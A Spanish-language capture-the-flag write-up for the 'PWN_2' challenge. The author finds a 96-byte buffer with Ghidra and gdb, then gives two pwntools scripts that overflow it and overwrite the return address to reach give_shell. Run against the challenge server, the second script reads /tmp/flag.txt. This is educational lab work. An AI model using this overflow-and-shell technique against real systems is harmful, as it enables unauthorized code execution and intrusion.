 # PWN_2

Mi primera interacción es conectarme al servidor con `nc` e intentar meter una cadena de caracteres muy larga para ver que ocurre. Vemos que esta vez no es tan sencillo pues a pesar de conseguir hacer bufferoverflow, intenta mostrarnos la flag, sin embargo no puedo porque no se encuentra en el mismo directorio en el servidor. Una pista que nos da es que se encuentra en la carpeta.

![image.png](images/image_1.png)

Me descago el código correspondiente al reto, y lo primero que hacemos es mandarlo a ghidra, para ver como se ha compilado y observar las funciones. Para ver las funciones usamos gdb listando con el comando

![Screenshot 2024-11-18 at 19.47.52.png](images/image_2.png)

La funcion que nos interesa obtener es give_shell, pues con ella podremos movernos hasta el directorio `/tmp/flag.txt` . En ghidra vamos a calcular el tamaño del buffer de esa funcion, para intentar pisar los siguientes valores y conseguir que salte a la función `give_shell`.

![Screenshot 2024-11-18 at 19.43.43.png](images/image_3.png)

El tamaño del buffer es de `0x60` (96 bytes) lo cual, deberemos insertar esa cantidad para llenar el buffer y conseguiremos acceso a la shell.

Hemos modificado el archivo original de la plantilla para adaptarlo a nuestro exploit. De esta manera tenemos lo siguiente:

```jsx
from pwn import *

# Configuración inicial
exe = './pwnthemall2'  # Cambia al nombre de tu binario
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'
context.arch = 'amd64'  # Cambia a 'i386' si es un binario de 32 bits

# Opciones de inicio
def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], int(sys.argv[2]), *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Script para GDB (opcional, ajusta según necesidad)
gdbscript = '''
break *main
continue
'''.format(**locals())

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Configuración
offset = 96  # Ajusta según tu análisis del binario
ret_address = 0x000000000040127c  # Cambia a la dirección real de la función objetivo

# Construcción del payload
payload = b"A" * offset  # Sobrescribir hasta la dirección de retorno
payload += p64(ret_address)  # Direccion de retorno (usa p32 si es i386)

# Inicio del exploit
io = start()
io.sendline(payload)
io.interactive()
```

Tras ejecutarlo con: `python3 script_2.py` obtenemos el siguiente resultado:

Parece que hemos conseguido saltar a la función `gife_shell`.

![image.png](images/image_4.png)

Todo esto lo hemos realizado de manera local, es decir, no conseguimos nada. Ahora ejecutaremos el script pero esta vez pasandole los parámetros de la conexión con el servidor.

`python3 script_2.py REMOTE 2f8a1b39ec.pwnth-vulnerable.numa.host 9982`

Y parece que obtenemos la reversh shell aunque a pesar de todo no nos devuelve nada:

![Screenshot 2024-11-19 at 09.36.02.png](images/image_5.png)

Vemos que no nos funciona no sabemos porque. Cambiamos el codigo para que no tengamos que introducir nosotros comandos adicionales, sino que el mismo escriba la lectura de la flag.

```python
from pwn import *

# Configuración inicial
exe = './pwnthemall2'  # Cambia al nombre de tu binario
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'
context.arch = 'amd64'  # Cambia a 'i386' si es un binario de 32 bits

# Opciones de inicio
def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], int(sys.argv[2]), *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Script para GDB (opcional, ajusta según necesidad)
gdbscript = '''
break *main
continue
'''.format(**locals())

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Construcción del payload
offset = 96  # Ajusta según tu análisis del binario
ret_address = 0x000000000040127c  # Dirección de la función que quieres ejecutar

payload = b"A" * offset
payload += p64(ret_address)

# Inicio del exploit
io = start()
io.sendline(payload)

# Intenta leer el archivo de la flag
io.sendline(b"cat /tmp/flag.txt")

# Captura la salida
output = io.recvall().decode()
print(output)

io.close()

```

Con esto, obtendriamos el siguiente resultado:

![image.png](images/image_6.png)
